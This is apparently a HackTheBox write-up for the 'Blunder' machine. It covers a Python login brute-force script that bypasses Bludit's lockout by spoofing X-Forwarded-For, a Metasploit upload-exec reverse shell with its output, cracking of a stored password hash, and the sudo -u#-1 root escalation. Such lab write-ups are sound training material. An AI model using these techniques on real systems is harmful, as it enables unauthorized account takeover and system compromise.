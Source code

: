 ```yaml
---
title: "HTB: Blunder"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```


![Blunder](https://i.ibb.co/vzVkqtF/Blunder.png)

# Blunder

[[toc]]

## Website Enumeration

A quick fuzz of the websites shows that the following page exists:

http://10.10.10.191/todo.txt
```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

We'll keep the username "fergus" for later use. Additionally, an admin panel exists at http://10.10.10.191/admin. Since we don't have a password yet, we'll continue enumerating the site.

We can visit the Bludit Github repo for more info on the backend of the CMS. Several interesting folders are present, and looking through them presents us with the version of Bludit that this machine is running:

http://10.10.10.191/bl-plugins/opengraph/metadata.json
```
author	"Bludit"
email	""
website	"https://plugins.bludit.com"
version	"3.9.2"
releaseDate	"2019-06-21"
license	"MIT"
compatible	"3.9.2"
notes	""
```

To exploit the admin page, we can use cewl to get a wordlist, and modify the script found at the following url:

https://rastating.github.io/bludit-brute-force-mitigation-bypass/

cewl usage:
```
cewl -w wordlist http://blunder.htb
```

Modified Script:
```
#!/usr/bin/env python3
import re
import requests

host = 'http://blunder.htb'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = open('wordlist')

# Generate 50 incorrect passwords

# Add the correct password to the end of the list

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password.strip(),
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password.strip(),
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

We get the following credentials:

**fergus:RolandDeschain**

## Admin Panel Exploitation

Metasploit has a module dedicated to Bludit. We'll use linux/http/bludit_upload_images_exec to exploit the admin console and give ourselves a reverse shell:

```
use linux/http/bludit_upload_images_exec
set RHOSTS 10.10.10.191
set BLUDITUSER fergus
set BLUDITPASS RolandDeschain
run

[*] Started reverse TCP handler on 10.10.14.8:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading rQWQpOSGnt.png...
[*] Uploading .htaccess...
[*] Executing rQWQpOSGnt.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.xx.xx:4444 -> 10.10.10.191:55480) at 2020-06-01 11:03:14 -0500
[+] Deleted .htaccess
...
meterpreter > shell
Process 3329 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now, we can import tty:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Internal Enumeration

By doing some manual enumeration of the web-server folders, we can find the following hash in /var/www/bludit-3.10.0a/bl-content/databases/users.php:

```
...
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
...
```

Using hashes.org, we're able to easily decrypt this hash and gain the following credentials:

**Hugo:Password120**

## Enumeration as Hugo

First, we'll see if we can run anything as sudo:

```
sudo -l
Password: Password120

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

This means that we can sudo -u _user_ /bin/bash to switch to any user on the box, aside from root. Using the exploit for sudo 1.8.27, we can sudo to root, even though !root is set:

https://www.exploit-db.com/exploits/47502

```
sudo -u#-1 /bin/bash

root@blunder:/root# whoami
root
```



